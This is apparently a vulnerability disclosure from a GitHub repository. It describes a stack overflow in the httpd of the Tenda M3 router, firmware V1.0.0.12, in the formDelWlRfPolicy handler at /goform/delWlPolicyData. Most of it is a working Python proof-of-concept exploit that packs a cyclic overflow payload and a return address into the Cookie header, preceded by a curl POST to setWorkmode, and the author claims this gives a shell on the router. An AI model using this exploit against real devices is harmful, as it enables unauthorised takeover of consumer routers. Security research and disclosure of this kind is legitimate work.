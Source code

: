 # Tenda M3 Stack Overflow

**Vender** ：Tenda

**Firmware version**:V1.0.0.12(4856)

**Exploit Author**: GD@hillstone

**Vendor Homepage**: https://www.tenda.com.cn/



## POC

httpd in directory `/bin` has a stack overflow vulnerability. The vulnerability occurrs in the `formDelWlRfPolicy` function, which can be accessed via the url  `/goform/delWlPolicyData`.

![1](./1.jpg)



When we send packets, the router will be shell

```
#!/usr/bin/env python
# -*- coding: UTF-8 -*-

import  requests
from pwn import *
import os
 

if __name__ == '__main__':
    #Fireitup
    #payload='a'*29+'\xfc\x69\x04\x01'
    #payload=payload.ljust(900,'a')
    payload='bbbbbbbb='+cyclic(0x58)+'\xfc\x69\x04\x00'
    url = 'http://192.168.10.1/goform/delWlPolicyData?ssidArr=aaaaaaaaaaaaaaaaaaa'
    # 构造http数据包
    '''
    pdata = {

        'ssidArr'  :   'bbbb' ,
        'url'  :   payload
        }
    '''

    header = {
        'Cookie'        : 'bLanguage=cn; user=admin; workMode=devUid'+payload,
        'Accept-Encoding': 'gzip, deflate',
        'Content-Type'  : 'application/x-www-form-urlencoded',
        'User-Agent'    : 'Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1)'
        }
    # 发起http请求
    try:
	cmd='''curl -i -X POST http://192.168.10.1/goform/setWorkmode -d acAddr='bbbb' -d workmode='master' -d  devname='aaa'  --cookie "user=admin"'''
	os.system(cmd)
        a=requests.get(url,headers=header)
        #print a.text
        print '[+] execute ok'
    except Exception,e:
        print "2Payload delivery failed: %s" % str(e)

```





![poc](./poc.jpg)



